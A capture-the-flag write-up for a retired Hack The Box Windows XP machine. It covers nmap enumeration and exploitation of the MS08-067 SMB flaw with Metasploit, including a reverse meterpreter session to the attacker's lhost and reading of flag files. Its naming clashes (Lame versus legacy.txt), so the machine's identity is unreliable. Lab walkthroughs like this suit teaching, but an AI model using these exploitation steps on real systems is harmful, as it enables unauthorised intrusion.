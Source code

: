 
![](https://cdn-images-1.medium.com/max/800/1*5M6-ofIj4NRY49YkIQC38w.png)

Lame is a retired machine that is easy in difficulty and is a Windows OS. I’ll be using a virtual machine and a copy of Parrot OS, which can be downloaded from [here](https://parrotlinux.org/).

### Enumeration

I’ve started to use a new command for initial enumeration with nmap. The command must be run with elevated privileges. Using this scan should ensure that it scans relatively quickly, checks for service versions, identifies OS of the system, scans all ports, outputs to a file called legacy.txt, and uses an aggressive scan timing. The output results of the scan below.

```shell
sudo nmap -sS -sV -A -p- -oN legacy.txt -T4 10.10.10.4
```

![](https://cdn-images-1.medium.com/max/800/1*pscUvNHVhCFpPIVJntKpgQ.png)

This scan shows us that there are 2 open ports and 1 closed port. The 2 open ports are ports 139 which is netbios, and 445 which is microsoft ds. It also shows us that there is a 94% chance that the operating system is Windows XP SP3. This gives us some information to search for., so lets start by searching for windows xp sp3 netbios exploit. Within the first couple of results is an article from rapid 7 with how to exploit the machine with metasploit. Perfect.

### Exploitation

Lets fire up metasploit with msfconsole, and when it is finished loading type _use exploit/windows/smb/ms08_067_netapi  
_We then need to see what targets are available so we type show targets, and it shows a very large amount of options. Since we can assume that the os is Windows XP SP3 lets choose that option as the target. So we use the command _set target 7_ then we need to set the options for the for rhosts and lhost with `set rhosts 10.10.10.4` and `set lhost <your ip>`. Once these options have been set use the command exploit to run the exploit.

![](https://cdn-images-1.medium.com/max/800/1*yEHrmaz-GeuwmX2W-blmqQ.png)

As you can see from the screenshot using this options gave us a meterpreter session, when running getuid the command returns NT System. We should then be able to locate the user.txt as well as the root.txt files in C:\documents and settings\john\user.txt and C:\documents and settings\administrator\root.txt. Once the file has been located, typing `type user.txt` and `type root.txt` will give you the flags.